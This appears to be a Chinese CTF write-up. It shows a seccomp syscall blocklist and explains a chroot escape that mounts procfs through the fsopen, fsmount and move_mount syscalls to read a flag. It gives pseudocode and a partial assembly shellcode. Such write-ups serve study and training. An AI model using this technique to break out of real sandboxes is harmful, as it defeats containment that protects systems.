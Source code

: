 ```bash
 0052: 0x15 0x11 0x00 0x000001b3  if (A == 0x1b3) goto 0070
 0053: 0x15 0x10 0x00 0x000001b2  if (A == 0x1b2) goto 0070
 0054: 0x15 0x0f 0x00 0x000001b6  if (A == 0x1b6) goto 0070
 0055: 0x15 0x0e 0x00 0x000001a8  if (A == 0x1a8) goto 0070
 0056: 0x15 0x0d 0x00 0x0000013d  if (A == seccomp) goto 0070
 0057: 0x15 0x0c 0x00 0x0000009d  if (A == prctl) goto 0070
 0058: 0x15 0x0b 0x00 0x0000009e  if (A == arch_prctl) goto 0070
 0059: 0x15 0x0a 0x00 0x000000ae  if (A == create_module) goto 0070
 0060: 0x15 0x09 0x00 0x000000af  if (A == init_module) goto 0070
 0061: 0x15 0x08 0x00 0x000000b0  if (A == delete_module) goto 0070
 0062: 0x15 0x07 0x00 0x000000b1  if (A == get_kernel_syms) goto 0070
 0063: 0x15 0x06 0x00 0x000000b2  if (A == query_module) goto 0070
 0064: 0x15 0x05 0x00 0x000000d5  if (A == epoll_create) goto 0070
 0065: 0x15 0x04 0x00 0x00000123  if (A == epoll_create1) goto 0070
 0066: 0x15 0x03 0x00 0x000001a9  if (A == 0x1a9) goto 0070
 0067: 0x15 0x02 0x00 0x000001aa  if (A == 0x1aa) goto 0070
 0068: 0x15 0x01 0x00 0x000001ab  if (A == 0x1ab) goto 0070
 0069: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0070: 0x06 0x00 0x00 0x00000000  return KILL
```

禁用了非常多的系统调用，按照常规思路来看 `mount`, `chroot`, `ptrace` 之类的都被禁用了完全无从下手，但关注到最近 kernel 版本新增的 syscall 就会发现 `fsmount` 系列的系统调用，提供了更细粒度的控制，允许更安全和更精确地配置挂载选项和属性，于是思路就可以确定为「挂载 `procfs`」进行逃逸：

1. 打开 proc 文件系统：
   使用 fsopen 打开 proc 文件系统。这个调用返回一个文件系统描述符，用于后续的操作。

2. 配置文件系统：
   使用 fsconfig 配置文件系统。对于 proc 文件系统，可能不需要特别的配置。

3. 挂载文件系统：
   使用 fsmount 将文件系统挂载到一个目录。这需要指定文件系统描述符和挂载属性。

4. 移动挂载点：
   使用 move_mount 将挂载点移动到 chroot 环境之外的目标位置。

```c
fsopen("proc", FSOPEN_CLOEXEC);
fsconfig(fs_fd, FSCONFIG_CMD_CREATE, NULL, NULL, 0);
fsmount(fs_fd, FSOPEN_CLOEXEC, MOUNT_ATTR_RDONLY);
mkdir("/mnt");
move_mount(mount_fd, "", AT_FDCWD, "/mnt", MOVE_MOUNT_F_EMPTY_PATH);
```

题目沙箱比较麻烦，反正就几行代码直接用汇编来写：

```c
section .data
    proc db "proc", 0
    errMessage db "[-] Error: negative return value.", 0xa, 0x0
    mnt_dir db "/mnt", 0
    null_byte db "", 0
    flag_addr db "/mnt/1/root/flag", 0

section .text
global _start
_start:

    mov rbp, rsp

; fsopen("proc", FSOPEN_CLOEXEC)
    mov rdi, proc
    push 1
    pop rsi
    mov rax, 0x1ae
    syscall
    test rax, rax
```